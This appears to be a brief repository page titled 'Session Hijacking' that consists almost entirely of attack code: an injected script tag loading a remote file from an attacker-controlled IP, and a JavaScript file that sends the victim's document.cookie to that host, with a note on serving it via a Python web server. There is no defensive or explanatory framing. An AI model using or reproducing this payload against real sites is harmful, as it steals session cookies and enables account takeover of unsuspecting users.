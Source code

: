 Session Hijacking

test file

```js
// remote script
<script src="http://<attacker ip>/empty.js"></script>
```

hijacking.js

```js
// sudo python3 -m http.server 80
var oReq = new XMLHttpRequest();
oReq.open('GET', 'http://<attacker ip>/?output='+document.cookie, true);
oReq.send()
```